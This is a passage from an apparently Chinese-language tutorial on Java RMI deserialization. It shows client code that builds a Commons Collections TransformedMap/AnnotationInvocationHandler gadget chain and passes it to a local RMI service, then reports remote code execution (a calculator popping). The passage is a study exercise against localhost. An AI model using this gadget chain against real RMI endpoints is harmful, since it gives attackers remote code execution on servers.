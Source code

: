 ```java
        // 创建ChainedTransformer调用链
        ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);
        // 创建Map对象
        Map<Object, Object> map = new HashMap<>();
        map.put("value","value");
        // 调用TransformedMap创建一个含有恶意调用链的Transformer类的Map对象
        Map transformedMap = TransformedMap.decorate(map, null, chainedTransformer);

        // 获取AnnotationInvocationHandler类对象
        Class cls = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        // 获取AnnotationInvocationHandler类的构造方法
        Constructor constructor = cls.getDeclaredConstructor(Class.class, Map.class);
        // 设置方法访问权限
        constructor.setAccessible(true);
        // 创建含有攻击链的AnnotationInvocationHandler类实例
        Object instance = constructor.newInstance(Target.class, transformedMap);

        //获取远程主机对象
        Registry registry = LocateRegistry.getRegistry("127.0.0.1",1099);
        // 在注册表中查询名称为hello的对象
        UserInterface userClass = (UserInterface) registry.lookup("user");
        // 调用远程对象hello的方法
        userClass.setUser(instance);
    }
}
```

运行服务端，接着运行客户端，成功执行弹出计算器的命令，完成 RCE
![image-20230111113625487](images/image-20230111113625487.png)

#### 攻击Registry
